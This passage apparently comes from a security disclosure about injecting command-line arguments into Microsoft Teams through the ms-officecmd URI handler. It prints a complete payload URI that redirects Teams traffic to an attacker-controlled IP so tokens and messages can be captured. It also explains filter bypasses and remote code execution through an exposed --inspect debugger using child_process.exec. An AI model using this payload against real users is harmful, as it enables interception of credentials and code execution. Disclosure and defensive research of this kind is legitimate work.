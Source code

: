 The first of these arguments whose abuse potential we were able to confirm is `--host-rules`. This argument can be used to remap IP addresses and host names, causing all relevant network traffic of the application to be directed to the chosen target. When using a new domain as the map destination, there are no TLS errors as long as TLS is correctly set up for the new domain. By adding the `--ignore-certificate-errors` switch, not even this is needed. With the help of a reverse proxy, or even just a listening web server, an attacker could extract all sensitive information sent to Microsoft Teams' back-end services, including authentication tokens and messages. A reverse proxy could also be leveraged to modify API responses and impersonate any MS Teams user towards the victim.

When we tried to craft a valid payload in order to inject those arguments we had to overcome two more hurdles:

1.  As a [fix for the critical CVE-2018-1000006](https://www.electronjs.org/blog/protocol-handler-fix), Electron changed their command line parsing logic to drop additional arguments after a URI. Checking the source code, we identified an [exception for 1-letter URI schemes](https://github.com/electron/electron/blob/4b70ccde26c057a3376c52eb563431943ebc3be6/shell/app/command_line_args.cc#L18-L20) to skip this filtering for Windows file paths that include drive letters (i.e. `C:/`). This allowed us to inject Electron arguments after a bogus `filename` prefix like `a:/b/`, which is accepted by both Electron and `AppBridge.dll`
2.  MS Teams would sometimes not start for `filename` parameters containing `.` (period) characters due to a file extension check in `AppBridge.dll`. In the video below this check is bypassed by converting the target IP address `3.64.176.207` to its integer format `54571215`

 <video src="" control></video>

 Redirecting MS Teams https traffic to our own server using injected `--host-rules` and `--ignore-certificate-errors` arguments

Please note that in this demo video the requests are not forwarded to Team's real backend, resulting in the connection error.

This is the URI used in the video:

```
ms-officecmd:{
   "LocalProviders.LaunchOfficeAppForResult": {
       "details": {
           "appId": 5,
           "name": "irrelevant",
           "discovered": {
               "command": "teams.exe",
               "uri": "msteams"
           }
       },
       "filename": "a:/b/ --ignore-certificate-errors --host-rules=\"MAP * 54571215\""
   }
}

```

### Teams/Skype code execution from local network via `--inspect` debugger

Another promising argument was the Node.js `--inspect` parameter, which can be used to debug the Node.js Javascript environment. The parameter specifies the network interface and port number which can be used to connect a debugger. For security reasons, debugging is only made available through the local interface `127.0.0.1` by default. In the video below we override that setting via the `--inspect="0.0.0.0:28966"` switch, so that debugger connections are accepted on port 28966 for any network interface. Once the debugger is connected, we utilize a standard Node.js library to execute our command: `require("child_process").exec("<command>")`
